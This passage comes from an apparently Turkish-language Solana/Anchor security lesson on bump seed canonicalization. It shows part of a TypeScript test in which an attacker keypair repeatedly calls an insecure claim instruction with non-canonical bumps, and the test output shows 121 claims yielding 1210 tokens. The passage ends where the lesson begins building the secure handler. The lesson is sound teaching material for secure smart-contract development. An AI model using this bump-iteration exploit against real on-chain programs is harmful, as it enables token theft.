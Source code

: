 ```typescript
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
            mintAuthority,
            tokenProgram: anchor.utils.token.TOKEN_PROGRAM_ID,
            associatedTokenProgram: anchor.utils.token.ASSOCIATED_PROGRAM_ID,
            systemProgram: anchor.web3.SystemProgram.programId,
            rent: anchor.web3.SYSVAR_RENT_PUBKEY,
          })
          .signers([attacker])
          .rpc();

        successfulClaimCount += 1;
      } catch (error) {
        if (
          error instanceof Error &&
          !error.message.includes(
            "Invalid seeds, address must fall off the curve",
          )
        ) {
          console.error(error);
        }
      }
    }

    const ata = await getAccount(connection, ataKey);

    console.log(
      `Attacker claimed ${successfulClaimCount} times and got ${Number(
        ata.amount,
      )} tokens`,
    );

    expect(successfulClaimCount).to.be.greaterThan(1);
    expect(Number(ata.amount)).to.be.greaterThan(10);
  } catch (error) {
    throw new Error(`Test failed: ${error.message}`);
  }
});
```

**:::note `anchor test` komutunu çalıştırarak bu testin geçtiğini görebilirsiniz ve bu da saldırganın başarılı olduğunu göstermektedir.** Test, geçerli tüm bump'lar için talimat işleyicilerini çağırdığından, çalıştırılması biraz zaman alır, bu yüzden sabırlı olun.

```bash
  Bump seed canonicalization
Attacker claimed 121 times and got 1210 tokens
    ✔ allows attacker to claim more than reward limit with insecure instructions (119994ms)
```

### 3. Güvenli Talimat İşleyicisi Oluşturma
